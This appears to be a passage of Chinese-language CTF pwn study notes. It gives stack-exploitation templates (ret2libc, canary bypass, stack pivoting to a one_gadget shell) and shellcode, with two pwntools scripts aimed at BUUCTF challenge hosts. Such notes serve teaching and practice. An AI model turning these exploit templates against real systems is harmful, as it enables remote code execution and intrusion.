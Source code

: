 - 64位9字节read shellcode：`xor eax,eax;xor edi,edi;mov rdx,r10;syscall`,结果是`b'\x82QN".\x08\xc3e\x95'`。

6. pwn 栈题模板

## 64位

- ret2libc+格式化字符串绕canary:[bjdctf_2020_babyrop2](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Pwn/bjdctf_2020_babyrop2.md)。

- ropchain getshell+溢出绕canary:[rop64](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/moectf/Pwn/rop64.md)。

- ret2libc:[ret2libc](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/moectf/Pwn/ret2libc.md)
- 程序给出buf地址的栈迁移:[actf_2019_babystack](https://blog.csdn.net/mcmuyanga/article/details/112801732)

```python
from pwn import *
context.log_level='debug'
p=remote("node4.buuoj.cn",28412)
leave_ret=0x0000000000400a18
puts_plt=0x400730
puts_got=0x601020
main=0x4008f6
pop_rdi=0x0000000000400ad3
p.sendlineafter(">",str(0xe0))
p.recvuntil('0x')
stack_addr=int(p.recv(12),16)
print(hex(stack_addr))
payload=b'a'*8+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main)
payload+=b'a'*(0xd0-len(payload))  #0xd0是buf距离rbp的偏移
payload+=p64(stack_addr)+p64(leave_ret)
p.sendafter(">",payload) #栈迁移提的payload永远用send发送
puts_addr=u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc_base=puts_addr-526784
one_gadget=libc_base+0x4f2c5
p.sendlineafter(">",str(0xe0))
p.recvuntil('0x')
stack_addr=int(p.recv(12),16)
payload=b'a'*8+p64(one_gadget)
payload+=b'a'*(0xd0-len(payload))
payload+=p64(stack_addr)+p64(leave_ret)
p.sendafter(">",payload)
p.interactive()
```

## 32位

- ret2libc:[pwn-200](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C/4%E7%BA%A7/Pwn/pwn-200.md)。

```python
from pwn import *
context.log_level='debug'
write_plt=0x08048370
write_got=0x0804a01c
ret_addr=0x0804847b
payload=b'a'*0x8c+p32(write_plt)+p32(ret_addr)+p32(1)+p32(write_got)+p32(4)
p=remote("node4.buuoj.cn",26320)
p.sendline(payload)
write_addr=u32(p.recv(4))
system_offset=239936
write_offset=869312
bin_sh_offset=0x0015902b
libc_base=write_addr-write_offset
payload=b'a'*0x8c+p32(libc_base+system_offset)+p32(ret_addr)+p32(libc_base+bin_sh_offset)
```